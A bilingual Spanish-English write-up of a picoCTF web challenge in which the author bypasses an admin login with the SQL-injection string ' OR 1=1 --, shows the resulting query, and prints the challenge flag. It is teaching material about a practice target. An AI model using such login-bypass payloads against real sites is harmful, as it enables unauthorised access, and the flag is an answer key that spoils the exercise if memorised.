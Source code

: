 ## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

Hay un sitio web funcionando en `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) o http://jupiter.challenges.picoctf.org:33850. ¿Crees que puedes iniciar sesión con nosotros? ¡Intenta ver si puedes iniciar sesión!
### Pistas
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

1. No parece haber muchas formas de interactuar con esto. Me pregunto si los usuarios se mantienen en una base de datos.
2. Intente pensar en cómo el sitio web verifica su inicio de sesión.
### Solución
1. Viendo en la página del reto, se puede observar en la parte de "Support" que hay gente diciendo que obtiene un SQL Error, por ende, podemos deducir que esta página usa SQL.
2. Vamos al "Admin Login" y escribimos como el usuario a ' OR 1=1 --
3. Lo que esto hace es verificar si hay un usuario llamado '' (literamente sin nombre) o si no se le manda una condición de 1=1 y lo demás se comenta como tal para ser ignorado.
```
username: ' OR 1=1 --
password: 
SQL query: SELECT * FROM users WHERE name='' OR 1=1 --' AND password=''

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```
### Notas Adicionales
Para este reto aprendimos a hacer inyecciones a una base de datos desde los campos del sitio, para ello hay que hacer consultas que ya sabemos hacer desde una base de datos.
### Referencias
https://play.picoctf.org/practice/challenge/80
https://jupiter.challenges.picoctf.org/problem/64649/

